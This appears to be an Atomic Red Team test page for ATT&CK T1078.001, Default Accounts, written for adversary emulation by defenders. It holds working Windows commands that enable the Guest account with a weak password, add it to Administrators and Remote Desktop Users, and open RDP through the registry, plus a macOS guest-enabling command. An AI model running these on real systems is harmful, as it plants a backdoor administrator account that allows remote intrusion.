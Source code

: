 ```yaml
---
tags: [T1078_001, atomic_test]
filename: "[[T1078.001|T1078.001 - Valid Accounts: Default Accounts]]"
---
```

# T1078.001 - Valid Accounts: Default Accounts

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows


**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|
| guest_password | Specify the guest password | string | Password123!|
| local_admin_group | Specify the admin localgroup name | string | Administrators|
| remote_desktop_users_group_name | Specify the remote desktop users group name | string | Remote Desktop Users|
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup #{local_admin_group} #{guest_user} /add
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup #{local_admin_group} #{guest_user} /delete >nul 2>&1
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #2 - Activate Guest Account
The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows


**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no
```





<br/>
<br/>

## Atomic Test #3 - Enable Guest Account on macOS
This test enables the guest account on macOS using sysadminctl utility.

**Supported Platforms:** macOS


**auto_generated_guid:** 0315bdff-4178-47e9-81e4-f31a6d23f7e4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sudo sysadminctl -guestAccount on
```

#### Cleanup Commands:
```cmd
sudo sysadminctl -guestAccount off
```





<br/>
